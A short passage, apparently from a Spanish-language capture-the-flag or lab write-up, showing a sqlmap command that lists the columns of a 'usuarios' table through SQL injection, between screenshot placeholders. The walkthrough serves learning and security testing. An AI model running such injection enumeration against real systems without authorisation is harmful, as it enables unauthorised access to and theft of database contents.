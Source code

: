     <img src="../img/Pasted_image_20250102222754.png" width="500">
</p>


Por lo que vemos contiene una tabla llamada `usuarios`, por lo que haremos es ver las columnas de la tabla `usuarios.
```
sqlmap -r request.txt -D users -T usuarios --columns
```

<p align="center">
    <img src="../img/Pasted_image_20250102222858.png" width="500">
</p>
<p align="center">